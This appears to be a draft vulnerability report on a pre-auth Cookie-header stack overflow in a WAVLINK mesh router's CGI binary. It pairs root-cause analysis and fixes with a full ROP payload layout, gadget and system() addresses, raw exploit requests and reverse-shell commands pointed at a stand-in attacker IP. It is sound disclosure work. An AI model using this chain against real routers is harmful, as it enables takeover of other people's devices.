

# CVE Report: WAVLINK WN535M1/M35M1 Pre-Auth Stack Buffer Overflow Remote Code Execution

## 1. Vulnerability Summary

| Field | Value |
|---|---|
| **Vendor** | WAVLINK / Shenzhen Ruiyin Technology Co., Ltd. (深圳市睿因科技股份有限公司) |
| **Product** | WAVLINK WN535M1 / M35M1 (Mesh Router) |
| **Firmware Version** | V250922 (`WAVLINK_WN535M1-M35M1_V250922-WO-GD.bin`) |
| **Vulnerability Type** | CWE-121: Stack-based Buffer Overflow |
| **Secondary CWE** | CWE-120: Buffer Copy without Checking Size of Input |
| **Impact** | Remote Code Execution (RCE) — Pre-Authentication |
| **Attack Vector** | Network (HTTP/HTTPS) |
| **Authentication Required** | **None (Pre-Auth)** |
| **User Interaction** | None |
| **Discoverer** | Independent Security Researcher |
| **Disclosure Date** | 2026-07-01 |

---

## 2. Affected Component

| Item | Detail |
|---|---|
| **Vulnerable Binary** | `/etc/lighttpd/www/cgi-bin/export_pingortrace.cgi` |
| **Architecture** | MIPS32 Release 2, Little-Endian |
| **Linking** | Dynamically linked, ELF 32-bit LSB |
| **C Runtime** | musl libc (`/lib/ld-musl-mipsel-sf.so.1`) |
| **Dependencies** | `libshare.so`, `libuci.so`, `libubox.so`, `libz.so.1`, `libc.so` |
| **Binary Size** | 12,312 bytes (stripped, no section headers) |
| **Web Server** | lighttpd (default port 80/443) |
| **Protection** | NX enabled (non-executable stack), No PIE, No Stack Canary, No ASLR (QEMU) |

---

## 3. Vulnerability Description

### 3.1 Overview

The CGI binary `export_pingortrace.cgi` on WAVLINK WN535M1/M35M1 routers contains a critical stack-based buffer overflow vulnerability. The program reads the `HTTP_COOKIE` environment variable (set by lighttpd from the HTTP `Cookie` header) and copies the entire value into a fixed-size stack buffer using `strcpy()` without any length validation.

**Critically, the `strcpy()` call occurs BEFORE the authentication check**, making this a **pre-authentication** vulnerability. An attacker can exploit this without knowing any credentials.

### 3.2 Root Cause

The vulnerable function (at address `0x400ac0`) allocates a 256-byte stack buffer `v10` at `sp+0x420` and copies the HTTP Cookie into it using `strcpy()`:

```
0x400b04:  lui    a0, 0x40
0x400b08:  jal    getenv              # v0 = getenv("HTTP_COOKIE")
0x400b0c:  addiu  a0, a0, 0x17e0     # (delay slot) a0 -> "HTTP_COOKIE"

0x400b10:  move   a1, v0              # a1 = cookie string (NO length check!)
0x400b14:  jal    strcpy              # strcpy(v10, cookie) -> OVERFLOW
0x400b18:  addiu  a0, sp, 0x420      # (delay slot) a0 = v10 buffer (256 bytes)
```

The subsequent authentication logic (extracting `token=` via `strstr`, sending to `ioos` backend via `ipc_send` for verification) occurs AFTER the `strcpy`:

```
0x400b24:  jal    strstr              # strstr(v10, "token=")  <- 认证在溢出之后
0x400b28:  addiu  a0, sp, 0x420

0x400b34:  jal    memcpy              # memcpy(token_buf, tok+6, 32)
0x400b38:  addiu  a0, sp, 0x520

0x400b54:  jal    ipc_send            # ipc_send() -> 验证 token
```

### 3.3 Pseudocode (Decompiled from MIPS Assembly)

```c
int main_handler() {
    char v10[256];                          // sp+0x420, buffer size = 256
    char buf1024[1024];                     // sp+0x020
    char token_buf[32];                     // sp+0x520

    memset(v10, 0, 256);
    memset(buf1024, 0, 1024);

    /* ========== VULNERABILITY ========== */
    char *cookie = getenv("HTTP_COOKIE");   // attacker-controlled via Cookie header
    strcpy(v10, cookie);                    // UNBOUNDED COPY -> stack overflow!
    /* =================================== */

    /* Authentication check — BUT TOO LATE, stack already corrupted */
    char *tok = strstr(v10, "token=");
    if (tok) {
        memcpy(token_buf, tok + 6, 32);
        int auth = ipc_send("/tmp/ipc_ioos", 1, token_buf, 33, ...);
        if (auth != 0) {
            print_403();                    // 403 Forbidden
            return 0;                       // function returns -> jr $ra -> HIJACKED
        }
    }

    /* Normal business logic: ping/traceroute */
    char *referer = getenv("HTTP_REFERER");
    int action = parse_referer(referer);
    if (access("/tmp/ping_and_tracer.data", ...) == 0) {
        puts("Content-Type: text/plain");
        // ... output results ...
        system("rm /tmp/ping_and_tracer.data");
    }
    return 0;
    // EPILOGUE: lw $ra, 0x55c($sp); jr $ra  -> jumps to attacker-controlled address!
}
```

### 3.4 Pre-Authentication Proof

Three behavioral tests confirm `strcpy` executes before any authentication:

| Test | Cookie Value | Result | Interpretation |
|---|---|---|---|
| 1 | (No Cookie header) | Normal response | `getenv` returns NULL, `strcpy` not reached |
| 2 | `token=BBBB` (short, invalid) | Normal response (or 403) | Cookie fits in buffer, auth fails normally |
| 3 | `token=` + `A`*400 (overflow, invalid) | **Segfault (exit 139)** | Buffer overflow triggered **before** auth check |

Test 3 proves that the crash occurs regardless of authentication state.

---

## 4. Stack Frame Analysis

### 4.1 Function Prologue

```
0x400ac0:  addiu  sp, sp, -0x560      # Frame size = 1376 (0x560) bytes
0x400ad0:  sw     ra, 0x55c(sp)       # Save return address
0x400ad4:  sw     s2, 0x558(sp)       # Save s2
0x400ad8:  sw     s1, 0x554(sp)       # Save s1
0x400ae0:  sw     s0, 0x550(sp)       # Save s0
```

### 4.2 Stack Layout

```
        Low Address
        ┌──────────────────────────┐
sp+0x000│  Local vars / alignment  │  32 bytes
        ├──────────────────────────┤
sp+0x020│  buf1024[1024]           │  1024 bytes
        ├──────────────────────────┤
sp+0x420│  v10[256] ← OVERFLOW    │  256 bytes (cookie buffer)
        │  HERE                    │
        ├──────────────────────────┤
sp+0x520│  token_buf / locals      │  48 bytes
        ├──────────────────────────┤
sp+0x550│  saved $s0               │  4 bytes  ← overflow +304
        ├──────────────────────────┤
sp+0x554│  saved $s1               │  4 bytes  ← overflow +308
        ├──────────────────────────┤
sp+0x558│  saved $s2               │  4 bytes  ← overflow +312
        ├──────────────────────────┤
sp+0x55c│  saved $ra (return addr) │  4 bytes  ← overflow +316
        └──────────────────────────┘
        High Address
```

### 4.3 Overflow Distances

| Target Register | Offset from v10 Start | Bytes to Overflow |
|---|---|---|
| `$s0` | +304 bytes | 304 |
| `$s1` | +308 bytes | 308 |
| `$s2` | +312 bytes | 312 |
| `$ra` (return address) | +316 bytes | 316 |

### 4.4 Function Epilogue (Hijack Point)

```
0x400c58:  lw     ra, 0x55c(sp)       # Load OVERWRITTEN return address
0x400c5c:  lw     s2, 0x558(sp)       # Load OVERWRITTEN s2
0x400c60:  lw     s1, 0x554(sp)       # Load OVERWRITTEN s1
0x400c64:  lw     s0, 0x550(sp)       # Load OVERWRITTEN s0
0x400c68:  jr     ra                  # JUMP TO ATTACKER-CONTROLLED ADDRESS
0x400c6c:  addiu  sp, sp, 0x560      # (delay slot)
```

---

## 5. Exploitation

### 5.1 Technique: ret2libc + ROP

Since NX (non-executable stack) is enabled, shellcode on the stack cannot be directly executed. The exploit uses a **return-to-libc** technique combined with a **ROP gadget** to call `system()` with an attacker-supplied command string.

### 5.2 ROP Gadget

A gadget at libc offset `0x4c0fc` provides the necessary chain:

```asm
# Gadget at libc_base + 0x4c0fc:
lw     $a0, 0x1c($sp)      # Load first argument from stack (command string pointer)
move   $t9, $s1             # t9 = s1 (previously set to system() address)
jalr   $t9                  # Call system(command)
move   $a1, $zero           # (delay slot) clear a1
```

### 5.3 Key Addresses (QEMU User-Mode Emulation)

| Component | Address | Calculation |
|---|---|---|
| musl libc base | `0x3ff5b000` | QEMU deterministic (no ASLR) |
| `system()` | `0x3ffb53f8` | base + `0x5a3f8` |
| ROP gadget | `0x3ffa70fc` | base + `0x4c0fc` |
| `"/bin/sh"` string | `0x3ffea4b8` | base + `0x8fab8` (alternative chain) |

### 5.4 Payload Structure

```
Byte Offset   Content                    Purpose
──────────────────────────────────────────────────────────
0x000-0x025   "token=" + "A"*32          Cookie prefix (38 bytes)
0x026-0x12f   "X" * 266                  Padding to reach saved registers
0x130         s0 = 0x41414141            Dummy (unused)
0x134         s1 = 0x3ffb53f8            system() address
0x138         s2 = 0x43434343            Dummy (unused)
0x13c         ra = 0x3ffa70fc            ROP gadget address
0x140-0x15b   "Y" * 28                   Stack padding for gadget
0x15c         cmd_addr pointer           Points to command string below
0x160-0x19d   "rm /tmp/f;mkfifo..."      Reverse shell command (padded)
──────────────────────────────────────────────────────────
Total: 414 bytes
```

### 5.5 Exploitation Chain (Step by Step)

```
1. Attacker sends HTTP GET to /cgi-bin/export_pingortrace.cgi
   with Cookie header containing 414-byte overflow payload

2. lighttpd sets HTTP_COOKIE environment variable and spawns CGI

3. CGI calls getenv("HTTP_COOKIE") -> returns attacker payload

4. strcpy(v10, cookie) copies 414 bytes into 256-byte buffer
   -> Overwrites saved $s0, $s1, $s2, $ra on stack

5. (Authentication check occurs but stack is already corrupted)

6. Function returns: lw $ra, 0x55c($sp) loads attacker's gadget address

7. jr $ra jumps to ROP gadget

8. Gadget: lw $a0, 0x1c($sp) loads command string address
           move $t9, $s1 loads system() address (from overwritten s1)
           jalr $t9 calls system("attacker_command")

9. system() executes attacker command with CGI process privileges
   -> Reverse shell / arbitrary command execution achieved
```

### 5.6 Constraints

- All addresses in the payload must be **null-byte free** (`strcpy` terminates on `\x00`)
- Stack pointer address must be calibrated for the target environment (varies with environment variable count and sizes)
- On real hardware, libc base address may differ; ASLR status depends on kernel configuration
- The payload must not contain characters `\r` (0x0d) or `\n` (0x0a) as they are interpreted as HTTP header terminators

---

## 6. Proof of Concept

### 6.1 PoC Tool

A complete exploitation tool (`wavlink_stackoverflow_rce.py`) has been developed:

```bash
# Mode 1: GDB verification (confirm register hijack)
python wavlink_stackoverflow_rce.py --qemu --gdb

# Mode 2: Arbitrary command execution
python wavlink_stackoverflow_rce.py --cmd "id>/tmp/pwned" --target <ROUTER_IP>

# Mode 3: Reverse shell
python wavlink_stackoverflow_rce.py --revshell <ATTACKER_IP> 4444 --target <ROUTER_IP>

# Mode 4: HTTPS target
python wavlink_stackoverflow_rce.py --revshell <ATTACKER_IP> 4444 --target <ROUTER_IP> --https

# Mode 5: Dump payload hex
python wavlink_stackoverflow_rce.py --dump --revshell <ATTACKER_IP> 4444
```

### 6.2 Firmware Emulation Environment

The vulnerability was verified in a full firmware emulation environment with lighttpd + ioos + mu running via QEMU chroot. The login page is accessible and confirms the web stack is fully operational:

**Figure 1: WAVLINK WN535M1 Firmware Emulation — Login Page**

Browser accessing http://192.168.2.128:8090/login.html. The page displays the WAVLINK logo, "Welcome to WAVLINK" greeting, and "Please set up this device first!" initial setup prompt, with a password input field and Login button below, and a language selector (English) in the upper right. This confirms that the lighttpd web server is fully operational in the QEMU chroot firmware emulation environment, and the router management interface is accessible.


### 6.3 Exploitation Evidence

#### 6.3.1 Register Hijack Verification (GDB)

GDB breakpoint at function epilogue (`0x400c68: jr $ra`) confirms all four saved registers are fully controlled by attacker cookie data:

```
Breakpoint 1, 0x00400c68
(gdb) info registers s0 s1 s2 ra
s0    0x41414141    (attacker controlled)
s1    0x3ffb53f8    (system() address)
s2    0x43434343    (attacker controlled)
ra    0x3ffa70fc    (ROP gadget address)
```

#### 6.3.2 Arbitrary Command Execution

```
$ python wavlink_stackoverflow_rce.py --cmd "touch /tmp/rce_http_ok" --target 192.168.2.128:9999
================================================================
  WAVLINK WN535M1 Stack Overflow RCE
================================================================
  Chain: system("touch /tmp/rce_http_ok")
  Cookie: 414 bytes
[*] Sending exploit -> http://192.168.2.128:9999/export_pingortrace.cgi
[*] HTTP 200 (0 bytes)

# Verification on target:
$ ls -la /tmp/rce_http_ok
-rw-rw-r-- 1 root root 0 Jul  1 10:56 /tmp/rce_http_ok    # FILE CREATED = RCE SUCCESS
```

#### 6.3.3 Reverse Shell

The following screenshot shows the complete exploitation process — left terminal: reverse shell listener receiving connection and executing commands (`ls`, `id`, `whoami`); right terminal: exploit script sending the overflow payload:

**Figure 2: Reverse Shell Remote Code Execution — Live Exploitation**

Left terminal: The attacker runs `python listener.py 4444` to listen on port 4444, receives a reverse connection from 192.168.2.128:54434, and executes commands — `ls` lists the router root filesystem (bin/dev/etc/etc_ro/lib/mnt/overlay/proc/rom/root/sbin/sys/tmp/usr/var/www, standard OpenWrt directory structure), `id` returns uid=1000(iotsec-zone) gid=1000(iotsec-zone) with group memberships, and `whoami` confirms the current identity as iotsec-zone. Right terminal: The attacker runs the PoC script `wavlink_stackoverflow_rce.py --revshell 192.168.2.1 4444 --target 192.168.2.128:9999`, which constructs a 415-byte overflow Cookie (s0=0x41414141, s1=0x3ffb53f8 pointing to system(), s2=0x43434343, ra=0x3ffa70fc pointing to the ROP gadget), sends the exploit to the target CGI, and reports Timeout indicating the reverse shell command is actively executing on the target.



```
# Attacker machine (left terminal):
$ python listener.py 4444
[*] Listening on 0.0.0.0:4444 ...
[+] Connection from 192.168.2.128:54434    # Reverse shell established!

ls
bin dev etc etc_ro lib mnt overlay proc rom root sbin sys tmp usr var www
id
uid=1000(iotsec-zone) gid=1000(iotsec-zone) groups=1000(iotsec-zone),4(adm),
24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare),140(docker)
whoami
iotsec-zone
```

### 6.4 Minimal HTTP Request (Raw)

```http
GET /cgi-bin/export_pingortrace.cgi HTTP/1.1
Host: <TARGET>
Cookie: token=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA<...266 bytes padding...><s0><s1=system()><s2><ra=gadget><28 bytes><cmd_ptr><command_string>
User-Agent: Mozilla/5.0
Referer: http://<TARGET>/
Connection: close
```

A single HTTP GET request is sufficient to achieve full remote code execution.

---

## 7. Impact Assessment

### 7.1 Attack Scenario

An unauthenticated attacker on the local network (or remotely, if the management interface is exposed to the internet via port forwarding or misconfiguration) can achieve:

| Impact | Description |
|---|---|
| **Full Device Compromise** | Execute arbitrary commands as the web server process (typically root on embedded devices) |
| **Persistent Access** | Install backdoors, modify startup scripts, create new admin accounts |
| **Network Traffic Interception** | Capture all traffic passing through the router (credentials, sessions, data) |
| **Lateral Movement** | Use the compromised router as a pivot point to attack other devices on the internal network |
| **Device Bricking** | Overwrite flash storage, corrupt firmware, render the device inoperable |
| **Botnet Recruitment** | Silently enlist the router into a DDoS botnet (e.g., Mirai-like) |

### 7.2 Attack Complexity

- **No authentication required** — the vulnerability triggers before any credential check
- **No user interaction required** — a single HTTP request is sufficient
- **Low complexity** — the exploit is reliable and deterministic in QEMU; on real hardware, only libc base address calibration is needed

---

## 8. Firmware Architecture

### 8.1 System Overview

```
                    ┌──────────────────┐
  HTTP Request  --> │    lighttpd      │ Port 80/443 (Frontend Web Server)
                    │  (CGI handler)   │
                    └────────┬─────────┘
                             │ spawns CGI
                    ┌────────▼─────────┐
                    │ export_pingortrace│ /etc/lighttpd/www/cgi-bin/
                    │     .cgi         │ ← VULNERABILITY HERE
                    └────────┬─────────┘
                             │ IPC via Unix socket
                    ┌────────▼─────────┐
                    │      ioos        │ Port 81 (Backend Application Server)
                    │  (handles .csp)  │ Token validation, business logic
                    └────────┬─────────┘
                             │ IPC via /tmp/ipc_path_mu
                    ┌────────▼─────────┐
                    │       mu         │ System Daemon
                    │ (hardware mgmt)  │ Network interfaces, system config
                    └──────────────────┘
```

### 8.2 Binary Protections

| Protection | Status | Impact on Exploitation |
|---|---|---|
| NX (Non-executable stack) | **Enabled** | Cannot execute shellcode directly on stack; must use ret2libc/ROP |
| PIE (Position-independent) | **Disabled** | Binary loads at fixed address `0x400000`; code gadgets are predictable |
| Stack Canary | **Disabled** | No stack corruption detection before function return |
| ASLR | **Disabled** (QEMU) / Varies (hardware) | Library addresses are predictable in emulation; may need brute-force on hardware |
| RELRO | **Partial** | GOT is writable but not needed for this exploit |

---

## 9. PLT Import Table (Complete)

The binary imports 34 functions via PLT stubs:

| PLT Address | GOT Slot | Function | Role in Vulnerability |
|---|---|---|---|
| `0x401dc0` | `0x412f78` | `strcpy` | **Vulnerability trigger** — unbounded copy |
| `0x401dd0` | `0x412f7c` | `waitpid` | Process management |
| `0x401de0` | `0x412f80` | `printf` | Output formatting |
| `0x401df0` | `0x412f84` | `vsprintf` | String formatting |
| `0x401e00` | `0x412f88` | `getenv` | **Reads attacker-controlled HTTP_COOKIE** |
| `0x401e20` | `0x412f90` | `usleep` | Timing |
| `0x401e30` | `0x412f94` | `fgets` | File reading |
| `0x401e40` | `0x412f98` | `memcpy` | Token extraction |
| `0x401e50` | `0x412f9c` | `execl` | Command execution |
| `0x401e60` | `0x412fa0` | `puts` | HTTP response output |
| `0x401e70` | `0x412fa4` | `system` | **RCE target** — called via ROP chain |
| `0x401e80` | `0x412fa8` | `feof` | File operations |
| `0x401e90` | `0x412fac` | `malloc` | Memory allocation |
| `0x401ea0` | `0x412fb0` | `fflush` | Stream flushing |
| `0x401ec0` | `0x412fb8` | `kill` | Signal handling |
| `0x401ed0` | `0x412fbc` | `strstr` | Token search in cookie |
| `0x401ee0` | `0x412fc0` | `strncpy` | Safe copy (used elsewhere) |
| `0x401ef0` | `0x412fc4` | `ipc_send` | IPC to ioos backend |
| `0x401f00` | `0x412fc8` | `fork` | Process creation |
| `0x401f10` | `0x412fcc` | `fopen` | File operations |
| `0x401f20` | `0x412fd0` | `memset` | Buffer initialization |
| `0x401f30` | `0x412fd4` | `fclose` | File operations |
| `0x401f40` | `0x412fd8` | `sys_uptime` | System uptime (WAVLINK custom) |
| `0x401f50` | `0x412fdc` | `access` | File access check |
| `0x401f60` | `0x412fe0` | `exit` | Process exit |
| `0x401f80` | `0x412fe8` | `strlen` | String length |
| `0x401f90` | `0x412fec` | `strchr` | Character search |
| `0x401fa0` | `0x412ff0` | `execvp` | Command execution |
| `0x401fb0` | `0x412ff4` | `igd_log` | WAVLINK logging |
| `0x401fc0` | `0x412ff8` | `close` | File descriptor close |
| `0x401fd0` | `0x412ffc` | `free` | Memory deallocation |

---

## 10. Key Strings in Binary

| File Offset | Virtual Address | String | Usage |
|---|---|---|---|
| `0x17e0` | `0x4017e0` | `HTTP_COOKIE` | `getenv()` argument |
| `0x17ec` | `0x4017ec` | `token=` | Authentication token prefix |
| `0x17f4` | `0x4017f4` | `/tmp/ipc_ioos` | IPC socket to backend |
| `0x1804` | `0x401804` | `HTTP_REFERER` | Referer header parsing |
| `0x1814` | `0x401814` | `/tmp/ping_and_tracer.data` | Ping/trace result file |
| `0x1830` | `0x401830` | `Content-Type: text/plain` | HTTP response header |
| `0x1850` | `0x401850` | `rm /tmp/ping_and_tracer.data` | Cleanup command (via `system()`) |
| `0x1898` | `0x401898` | `Status: 403 Forbidden` | Authentication failure response |
| `0x1924` | `0x401924` | `/tmp/mu.log` | System daemon log |
| `0x1970` | `0x401970` | `/bin/sh` | Shell path |

---

## 11. Remediation Recommendations

### 11.1 Immediate Fix (Vendor)

1. **Replace `strcpy()` with `strncpy()`** and enforce buffer size limit:
   ```c
   // BEFORE (vulnerable):
   strcpy(v10, cookie);
   
   // AFTER (fixed):
   strncpy(v10, cookie, sizeof(v10) - 1);
   v10[sizeof(v10) - 1] = '\0';
   ```

2. **Move authentication BEFORE input processing** — validate the token before copying any user-supplied data.

3. **Validate Cookie header length** at the web server level (lighttpd configuration):
   ```
   server.max-request-field-size = 512
   ```

### 11.2 Defense-in-Depth (Vendor)

4. **Enable Stack Canaries** — compile with `-fstack-protector-all` to detect stack corruption.
5. **Enable ASLR** — randomize library base addresses at boot (`echo 2 > /proc/sys/kernel/randomize_va_space`).
6. **Enable PIE** — compile with `-fPIE -pie` to randomize binary load address.
7. **Drop privileges** — run CGI programs as a non-root user.
8. **Use `snprintf`/`strlcpy`** throughout the codebase instead of unsafe `strcpy`/`sprintf`.

### 11.3 User Mitigation

9. **Do NOT expose the router management interface to the internet** (disable remote management).
10. **Use firewall rules** to restrict access to the management port (80/443) to trusted IPs only.
11. **Monitor for firmware updates** from WAVLINK and apply patches promptly.

---

## 12. Verification Environment

| Component | Version / Detail |
|---|---|
| **Host OS** | Windows 11 Pro |
| **VM OS** | Ubuntu (VMware, NAT 192.168.2.128) |
| **Emulation** | QEMU user-mode (`qemu-mipsel-static`) + chroot |
| **Firmware Extraction** | binwalk → SquashFS root filesystem |
| **Full Emulation** | lighttpd (port 8090) + ioos (port 81) + mu (system daemon) |
| **Debugger** | gdb-multiarch (MIPS remote target via QEMU `-g` gdbstub) |
| **Disassembler** | mipsel-linux-gnu-objdump (raw binary mode, no section headers) |
| **Exploit Tool** | Python 3 (`requests`, `struct`) |

---

## 13. Timeline

| Date | Action |
|---|---|
| 2026-06-30 | Vulnerability discovered via static analysis of CGI binary |
| 2026-06-30 | Dynamic verification with GDB + QEMU confirms register hijack |
| 2026-06-30 | Full RCE exploit chain developed (crash → register control → ret2libc → system()) |
| 2026-06-30 | Reverse shell payload verified in full firmware emulation |
| 2026-07-01 | Pre-authentication nature confirmed via behavioral testing |
| 2026-07-01 | Complete reverse engineering analysis documented |
| 2026-07-01 | CVE report drafted |
| TBD | Vendor notification (WAVLINK / 睿因科技) |
| TBD | CVE ID assignment (MITRE / CNVD) |
| TBD | Public disclosure (after vendor response / 90-day window) |

---

## 14. References

- **Firmware**: `WAVLINK_WN535M1-M35M1_V250922-WO-GD.bin`
- **Vulnerable Binary**: `/etc/lighttpd/www/cgi-bin/export_pingortrace.cgi`
- **CWE-121**: Stack-based Buffer Overflow — https://cwe.mitre.org/data/definitions/121.html
- **CWE-120**: Buffer Copy without Checking Size of Input — https://cwe.mitre.org/data/definitions/120.html
- **CVSS v3.1 Calculator**: https://www.first.org/cvss/calculator/3.1
- **OWASP Embedded Top 10**: Insecure Software/Firmware
- **Vendor Website**: https://www.wavlink.com

---

## Appendix A: Vulnerable Function Disassembly (Annotated)

```asm
# ==================== Function Prologue ====================
0x400ac0:  addiu  sp, sp, -0x560      # Allocate 1376-byte stack frame
0x400ad0:  sw     ra, 0x55c(sp)       # Save return address
0x400ad4:  sw     s2, 0x558(sp)       # Save s2
0x400ad8:  sw     s1, 0x554(sp)       # Save s1
0x400ae0:  sw     s0, 0x550(sp)       # Save s0

# ==================== Buffer Init ====================
0x400ae4:  li     a2, 256             # size = 256
0x400ae8:  move   a1, zero            # val = 0
0x400aec:  jal    memset              # memset(v10, 0, 256)
0x400af0:  addiu  a0, sp, 0x420       # a0 = v10 (delay slot)

0x400af4:  li     a2, 1024            # size = 1024
0x400af8:  move   a1, zero            # val = 0
0x400afc:  jal    memset              # memset(buf1024, 0, 1024)
0x400b00:  addiu  a0, sp, 0x20        # a0 = buf1024 (delay slot)

# ========== VULNERABILITY: Pre-Auth strcpy ==========
0x400b04:  lui    a0, 0x40
0x400b08:  jal    getenv              # v0 = getenv("HTTP_COOKIE")
0x400b0c:  addiu  a0, a0, 0x17e0     # a0 -> "HTTP_COOKIE" (delay slot)

0x400b10:  move   a1, v0              # a1 = cookie string (UNBOUNDED!)
0x400b14:  jal    strcpy              # strcpy(v10, cookie) <<<< OVERFLOW
0x400b18:  addiu  a0, sp, 0x420      # a0 = v10[256] (delay slot)

# ========== Auth Check (AFTER overflow!) ==========
0x400b1c:  lui    a1, 0x40
0x400b20:  addiu  a1, a1, 0x17ec     # a1 -> "token="
0x400b24:  jal    strstr              # strstr(v10, "token=")
0x400b28:  addiu  a0, sp, 0x420      # a0 = v10 (delay slot)

0x400b2c:  addiu  a1, v0, 6          # a1 = token value (skip "token=")
0x400b30:  li     a2, 32             # copy 32 bytes
0x400b34:  jal    memcpy             # memcpy(token_buf, token_val, 32)
0x400b38:  addiu  a0, sp, 0x520      # a0 = token_buf (delay slot)

# ... (IPC authentication to ioos backend) ...

0x400b54:  jal    ipc_send           # Validate token with backend
0x400b5c:  beqz   v0, continue       # Auth OK? -> continue
                                      # Auth FAIL? -> return 403
                                      # BUT $ra IS ALREADY CORRUPTED!

# ==================== Function Epilogue ====================
0x400c58:  lw     ra, 0x55c(sp)       # Load OVERWRITTEN $ra
0x400c5c:  lw     s2, 0x558(sp)       # Load OVERWRITTEN $s2
0x400c60:  lw     s1, 0x554(sp)       # Load OVERWRITTEN $s1
0x400c64:  lw     s0, 0x550(sp)       # Load OVERWRITTEN $s0
0x400c68:  jr     ra                  # JUMP TO ATTACKER ADDRESS -> RCE!
0x400c6c:  addiu  sp, sp, 0x560      # (delay slot) restore stack
```

---

## Appendix B: Exploitation Parameters

```
Target Binary:       /etc/lighttpd/www/cgi-bin/export_pingortrace.cgi
Buffer (v10):        sp + 0x420 (256 bytes allocated)
Saved $s0:           sp + 0x550 (overflow offset +304)
Saved $s1:           sp + 0x554 (overflow offset +308)
Saved $s2:           sp + 0x558 (overflow offset +312)
Saved $ra:           sp + 0x55c (overflow offset +316)

libc base:           0x3ff5b000   (QEMU user-mode, deterministic)
system():            0x3ffb53f8   (base + 0x5a3f8)
ROP gadget:          0x3ffa70fc   (base + 0x4c0fc)
"/bin/sh":           0x3ffea4b8   (base + 0x8fab8)

Cookie total length: 414 bytes (calibrated for SP = 0x408006c8)
Null-byte free:      Yes (all addresses verified)
```
